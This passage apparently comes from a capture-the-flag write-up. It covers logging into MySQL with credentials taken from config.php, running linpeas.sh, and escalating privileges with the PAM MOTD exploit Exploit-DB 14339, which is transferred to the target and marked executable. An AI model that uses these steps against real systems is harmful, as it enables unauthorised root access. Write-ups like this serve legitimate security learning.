

great we can see that the mysql server is running let’s login using credentials we’ve founded in config.php file

we found the password in database but was not crackable

then i ran [linpeas.sh](http://linpeas.sh) and found interesting PAM MOTD vulnerability



https://www.exploit-db.com/exploits/14339 download exploit from exploitdb and transfer it to target machine 

give it execute permissions `chmod +x 14339.sh` 

